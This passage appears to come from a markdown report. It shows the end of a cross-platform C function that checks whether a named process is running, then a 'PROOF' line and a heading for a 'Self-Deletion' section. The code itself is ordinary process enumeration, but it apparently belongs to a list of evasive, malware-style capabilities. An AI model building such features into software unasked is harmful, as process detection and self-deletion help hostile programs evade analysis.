 ```c
                break;
            }
        } while (Process32Next(hSnapshot, &pe32));
    }
    
    CloseHandle(hSnapshot);
    return found;
#else
    // Linux: Parse /proc filesystem
    DIR* dir = opendir("/proc");
    if (!dir) return 0;
    
    struct dirent* entry;
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type == DT_DIR && 
            entry->d_name[0] >= '1' && 
            entry->d_name[0] <= '9') {
            
            char path[512];
            snprintf(path, sizeof(path), "/proc/%s/comm", entry->d_name);
            
            FILE* fp = fopen(path, "r");
            if (fp) {
                char proc_name[256];
                if (fgets(proc_name, sizeof(proc_name), fp)) {
                    // Strip newline
                    for (int i = 0; proc_name[i]; i++) {
                        if (proc_name[i] == '\n') proc_name[i] = '\0';
                    }
                    // Compare
                    if (str_cmp(proc_name, name) == 0) {
                        fclose(fp);
                        closedir(dir);
                        return 1;
                    }
                }
                fclose(fp);
            }
        }
    }
    closedir(dir);
    return 0;
#endif
}
```

**PROOF:** Full process iteration on both platforms, not a simple stub

---

## 3. Self-Deletion - ADVANCED (35+ lines)
